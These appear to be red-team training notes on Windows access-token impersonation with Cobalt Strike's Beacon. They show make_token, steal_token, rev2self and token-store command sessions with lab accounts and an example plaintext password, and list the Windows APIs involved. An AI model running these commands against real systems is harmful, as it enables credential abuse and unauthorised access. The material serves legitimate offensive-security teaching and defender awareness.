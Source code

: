 
_Token Impersonation_ is a technique where an adversary impersonates an access token belonging to another user.  Those tokens can be created if the adversary knows the plaintext credentials of a user, or they can be stolen from processes running in other logon sessions.

### Make Token
This is a technique where an adversary uses the plaintext credentials of a user to create a new access token, and then impersonates it.  This is typically done using the [LogonUserA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-logonusera) and [ImpersonateLoggedOnUser](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-impersonateloggedonuser) APIs.  This capability is built into Beacon via the `make_token` command.

```powershell
beacon> make_token CONTOSO\rsteel Passw0rd!
[+] Impersonated CONTOSO\rsteel (netonly)
```

> This technique **_does not_** require a high-integrity context.

Cobalt Strike updates the 'user' field to show that it's currently impersonating a different context.

![[Pasted image 20250710223348.png]]

### Steal Token
This is a technique where an adversary "steals" the primary access token from a process running as a different user.  The steps to carry this out are:

- [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) to obtain a handle to the target process.
- [OpenProcessToken](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken) to obtain a handle to its primary access token.
- [DuplicateToken](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetoken) to duplicate the primary token into an impersonation token.
- [ImpersonateLoggedOnUser](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-impersonateloggedonuser) to use the impersonation token.

This capability is built into Beacon via the `steal_token` command.  Identify a target process using the `ps` command or Process Explorer first.

```powershell
beacon> ps

 PID   PPID  Name                       Arch  Session     User
 ---   ----  ----                       ----  -------     ----
 5248  1864  cmd.exe                    x64   0           CONTOSO\rsteel
 5256  5248      conhost.exe            x64   0           CONTOSO\rsteel
 5352  5248      mmc.exe                x64   0           CONTOSO\rsteel
 
beacon> steal_token 5248
[+] Impersonated CONTOSO\rsteel
```

> This technique **_does_** require a high-integrity session.

### RevertToSelf
To instruct Beacon to stop impersonating a token, whether made or stolen, run the `rev2self` command.  This calls the [RevertToSelf](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-reverttoself) API under the hood.

```powershell
beacon> rev2self
```

### Token Store

The downside of the steal_token command is that if you drop impersonation and the process subsequently closes, you can no longer impersonate it again.  Beacon has a token "store" where you can permanently hold a reference to the token, even after the process has closed.  This works because tokens are reference counted by the kernel, so they won't be disposed if something is holding an active handle to it.

The `token-store` of command is used to manage tokens, such as:

- `token-store steal` to steal a token and add it to the store.
- `token-store show` to print the tokens in the store.
- `token-store use` to use a token in the store.
- `token-store remove` to remove a token from the store.

```powershell
beacon> token-store steal 5248
[*] Stored Tokens

 ID   PID   User
 --   ---   ----
 0    5248  CONTOSO\rsteel
 
beacon> token-store use 0
[+] Impersonated CONTOSO\rsteel
```